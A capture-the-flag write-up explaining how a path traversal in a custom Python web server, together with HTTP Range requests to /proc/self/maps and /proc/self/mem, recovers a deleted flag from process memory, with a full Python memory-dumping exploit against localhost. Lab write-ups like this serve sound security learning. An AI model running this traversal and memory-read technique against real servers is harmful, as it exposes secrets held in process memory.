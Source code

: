 # Home on the Range

Challenge category : web\
Description :
```
I wrote a custom HTTP server to play with obscure HTTP headers.

By Jonathan (@JBYoshi on discord)


Unlock Hint for 0 points
If it seems like something's missing, that's completely intentional; you should be able to figure out why it's missing and where it currently is. You don't need to do any brute force guessing to figure out what that missing thing is.
```

The challenge is a simple webserver that responds only to get requests, after some initial testing and taking a look at the [SOURCE](./src/server.py) , I noticed that it is vulnerable to path traversal
![](./images/1.jpg)

In the source we see the path of the flag.txt hardcoded but if we try to send an http request it will give us 404 status code, because the file does not exist it is removed by the instruction : `os.remove(FLAG_PATH)` , so the flag is stored in a variable `the_flag`

![](./images/2.jpg)

 therefore the only way to read it is to analyze the process memory and to do this we use path traversal to navigate to /proc/self/...

First we take a look at /proc/self/maps ([docs](https://www.baeldung.com/linux/proc-id-maps)) that is a "symlink" to the /proc/$PID/maps .
Each row in /proc/$PID/maps describes a region of contiguous virtual memory in a process or thread. Each row has the following fields:

![](./images/5.jpg)

then we can use the obtained memory address ranges to read memory regions, sending an http request to /proc/self/mem ([docs](https://unix.stackexchange.com/a/6302)) with RANGE header

looking at the [SOURCE](./src/server.py) we notice that the server accepts the RANGE header ([Range header docs](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Range))
```
The Range HTTP request header indicates the parts of a resource that the server should return. Several parts can be requested at the same time in one Range header, and the server may send back these ranges in a multipart document. If the server sends back ranges, it uses the 206 Partial Content status code for the response. If the ranges are invalid, the server returns the 416 Range Not Satisfiable error.
```
![](./images/3.jpg)

![](./images/4.jpg)

So to "dump" the entire process memory I used this python [script](./src/exploit.py) : 

```python

import requests
import socket

def send_http_request(host, port, request): # we use Socket module instead of Request module because the HTTP response has a Content-Length: 0 so Request ignores the content of the response
    
    client_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    
    try:
        client_socket.connect((host, port))

        client_socket.sendall(request.encode())
        response = b''
        while True:
            part = client_socket.recv(4096)
            if not part:
                break
            response += part
        
        return response.decode()
    
    finally:
        client_socket.close()


def read_mem_range(start, end):
    url = "http://localhost:3000/../../../../../../../../../../../../../proc/self/mem"
    headers = {
        "Host": "localhost:3000",
        "Range": f"bytes={start}-{end}",
        "Connection": "close"
    }
    s = requests.Session()
    r = requests.Request(method='GET',url=url, headers=headers)
    prep = r.prepare()
    prep.url = url 
   
    response=s.send(prep)
    return response.content

def main():
    host = "localhost"
    port = 3000
    http_request = "GET /../../../../../../../../../../../../../proc/self/maps HTTP/1.1\r\nHost: localhost:3000\r\nConnection: close\r\n\r\n"
    response = send_http_request(host, port, http_request)
    content=response.split("\r\n\r\n")[1] # Skip HTTP headers
    if content:
        lines = content.split('\n')  
        ranges = [line.split()[0] for line in lines if line.strip()]  # Extract memory ranges
        dec_ranges = [f"{int(start, 16)}-{int(end, 16)}" for start, end in (range_.split('-') for range_ in ranges)]

        # Read memory for each range
        for range_ in dec_ranges:
            start, end = range_.split('-')
            mem_content = read_mem_range(start, end)
            if mem_content:
                print(mem_content.decode(errors='ignore'))  # Decode memory content to string
            else:
                #print(f"Failed to read memory range: {range_}")
                print("\n")
    else:
        print(f"Failed to retrieve /proc/self/maps: {response.status_code}")

if __name__ == "__main__":
    main()


```

Let's start the script and redirect the output to a file `python exploit.py > output.txt`
now in the `output.txt` file we have the dumped contents of the memory in raw bytes, we can pipe it with `strings` and `grep` to extract the flag which we know has the format `flag{...}`  (in my case because I started the server locally)
![](./images/6.jpg)